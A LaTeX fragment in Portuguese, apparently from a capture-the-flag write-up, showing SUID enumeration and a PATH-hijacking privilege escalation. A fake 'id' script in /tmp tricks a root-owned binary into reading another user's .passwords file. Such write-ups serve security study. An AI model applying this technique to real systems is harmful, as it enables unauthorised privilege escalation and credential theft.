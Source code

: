 \documentclass[12pt]{article}
\begin{document}
No diretório \textit{home} de \texttt{think} há um arquivo \textit{.passwords} que parece interessante, mas que não temos permissão de ler como \texttt{www-data}:

\begin{lstlisting}[caption={Conteúdo do /home/think}, label={lst:homethink}]
www-data@lookup:/$ ls -la /home/think
-rw-r----- 1 root think  525 Jul 30  2023 .passwords
-rw-r--r-- 1 root think   33 Jul 30  2023 user.txt
\end{lstlisting}

Partimos então para a busca por binários SUID, que executam com os privilégios do dono em vez dos de quem os chama:

\begin{lstlisting}[caption={Busca por binários SUID}, label={lst:suid}]
www-data@lookup:/$ find / -perm /4000 2>/dev/null
...
/usr/sbin/pwm
...
\end{lstlisting}

O binário \texttt{/usr/sbin/pwm} chama a atenção por não ser padrão do sistema. Ele é SUID e pertence ao \texttt{root}:

\begin{lstlisting}[caption={Permissões do binário pwm}, label={lst:pwmperm}]
www-data@lookup:/$ ls -la /usr/sbin/pwm
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
\end{lstlisting}

Ao executá-lo, observamos seu comportamento: ele roda o comando \texttt{id}, extrai o nome do usuário da saída e tenta ler o arquivo \textit{/home/<usuário>/.passwords}:

\begin{lstlisting}[caption={Execução do pwm como www-data}, label={lst:pwm1}]
www-data@lookup:/$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
\end{lstlisting}

O ponto fraco é que o \texttt{pwm} invoca \texttt{id} \textbf{sem caminho absoluto}. Assim, a resolução do binário segue a variável \texttt{PATH} do nosso ambiente, e podemos antepor um diretório sob nosso controle para que um \texttt{id} falso seja executado no lugar do real --- técnica conhecida como \textit{PATH hijacking}. Criamos um \texttt{id} que devolve \texttt{think} como usuário:

\begin{lstlisting}[caption={Sequestro do PATH e criação de um id falso}, label={lst:pathhijack}]
www-data@lookup:/$ export PATH=/tmp:$PATH
www-data@lookup:/$ cat /tmp/id
#!/bin/bash
echo "uid=33(think) gid=33(think) groups=33(think)"
www-data@lookup:/$ chmod +x /tmp/id
\end{lstlisting}
\end{document}
